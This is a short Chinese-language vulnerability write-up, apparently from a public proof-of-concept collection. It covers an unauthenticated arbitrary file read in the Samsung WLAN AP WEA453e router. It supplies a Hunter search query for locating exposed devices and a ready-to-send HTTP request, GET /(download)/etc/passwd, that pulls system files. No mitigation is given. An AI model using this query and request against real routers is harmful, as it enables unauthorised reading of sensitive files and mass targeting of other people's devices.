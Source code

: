 # 三星路由器WLAN AP任意文件读取漏洞

# 一、漏洞简介
三星 WLAN AP WEA453e路由器存在任意文件读取漏洞，可在未授权的情况下获取敏感信息。

# 二、影响版本
+ 三星 WLAN AP WEA453e路由器

# 三、资产测绘
+ hunter`web.title="Samsung WLAN AP"`
+ 特征

![1699981974720-33031d9c-1da8-4cf7-87e1-1b3f1b65341d.png](./img/MnDBMhl-Vf5EcH4Y/1699981974720-33031d9c-1da8-4cf7-87e1-1b3f1b65341d-129492.png)

# 四、漏洞复现
```plain
GET /(download)/etc/passwd HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1699982107952-6d999eff-c332-4c61-8047-73509df4ff1b.png](./img/MnDBMhl-Vf5EcH4Y/1699982107952-6d999eff-c332-4c61-8047-73509df4ff1b-435942.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ypkfb8s12ng42izh>